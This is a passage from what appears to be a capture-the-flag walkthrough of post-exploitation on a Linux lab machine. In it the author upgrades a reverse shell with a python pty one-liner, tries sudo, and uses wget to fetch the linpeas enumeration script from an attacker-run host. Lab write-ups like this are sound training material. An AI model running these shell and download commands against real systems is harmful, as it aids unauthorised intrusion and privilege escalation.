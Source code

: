 ![](./IMG/27.png)
- I also can know the current user is ```www-data```

![](./IMG/28.png)

- After get the reverse shell, get fully interaction shell first
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo
```
- check the content in user directory.

![](./IMG/29.png)

- Confirm the sudo permission and use external script to enumerate the linux server

1. ```sudo -l ```, it ask about password which I don't know, so it failed.
2. Upload linpeas shell file
```
wget http://10.10.17.145:9797/linpeas.sh
```

![](./IMG/30.png)

- Execute the linpeas
- First, I know the ssh related directory location

